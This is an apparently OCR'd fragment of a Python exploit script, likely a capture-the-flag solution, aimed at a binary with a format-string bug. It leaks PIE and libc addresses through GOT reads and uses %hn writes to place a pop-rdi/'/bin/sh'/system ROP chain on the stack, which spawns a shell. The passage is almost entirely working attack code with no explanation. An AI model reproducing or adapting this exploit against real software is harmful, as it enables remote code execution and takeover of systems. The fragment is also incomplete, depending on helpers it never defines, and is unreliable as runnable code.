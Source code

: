 ```python
    p.write("%d\n" % (base_ptr - 8 * 1))
    p.write("%" + ("%d" % want_to_return_main) + "c%1$hn\n")
    p.write("%d\n" % (base_ptr - 8 * 4 ))
    for i in range(13):
        p.write("a\n")
        p.write("1\n")

    p.write("%d\n" % (base_ptr - 0x7fffffffe590 + 0x7fffffffe589))
    want_to_return_2 = (0x0EA0 + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
    p.write("%" + ("%d" % want_to_return_2) + "c%1$hn\n")
    p.write("%d\n" % (base_ptr - 8 * 4 ))
    p.write("PIEGET\n")
    p.write("0\n")
    p.write("%s\n")
    p.write("%d\n" % (base_ptr - 8))
    for i in range(11):
        p.write("a\n")
        p.write("1\n")
    p.write("%" + ("%d" % want_to_return_main) + "c%1$hn\n")
    p.write("%d\n" % (base_ptr - 8 * 1))

    p.read_until("PIEGET\n")
    pie_base = struct.unpack("<Q",p.read_byte(6).ljust(8,'\x00'))[0] - 0xe0a
    p.read_until("-->")
    return ans

def get_quad(x):
    s = ''
    for i in range(8):
        s = s + chr(leak(x+i))
    return struct.unpack("<Q",s)[0]
got_dup2 = pie_base + 0x201f90
#got_printf = pie_base + 0x201f98
#got_read = pie_base + 0x201fa8

libc_dup2 =  get_quad(got_dup2)

libc_base = libc_dup2 - 0xf6d90
libc_system = libc_base + 0x45390
libc_binsh = libc_base + 0x18c177
#libc_printf = get_quad(got_printf)
#libc_read = get_quad(got_read)

print "%x %x %x" % (libc_dup2, libc_system, libc_binsh)

p.write("%d\n" % libc_base)
poprdiret = pie_base + 0xea3

def write_quad(x,pt):
    give_format_string( "%" + ("%d" % (x & 0xffff)) + "c%1$hn", pt)
    give_format_string( "%" + ("%d" % ((x & 0xffff0000) >> 16)) + "c%1$hn", pt+2)
    give_format_string( "%" + ("%d" % ((x & 0xffff00000000) >> 32)) + "c%1$hn", pt+4)
    if(((x & 0xffff000000000000) >> 48) != 0):
        give_format_string( "%" + ("%d" % ((x & 0xffff000000000000) >> 48)) + "c%1$hn", pt+6)
    else:
        give_format_string("%1$hn", pt+6)
    return 4

write_quad(poprdiret, base_ptr)
write_quad(libc_binsh, base_ptr + 8)
write_quad(libc_system, base_ptr + 16)

give_format_string( "%" + ("%d" % ((pie_base + 0xEA4) & 0xffff)) + "c%1$hn", base_ptr - 8 )
```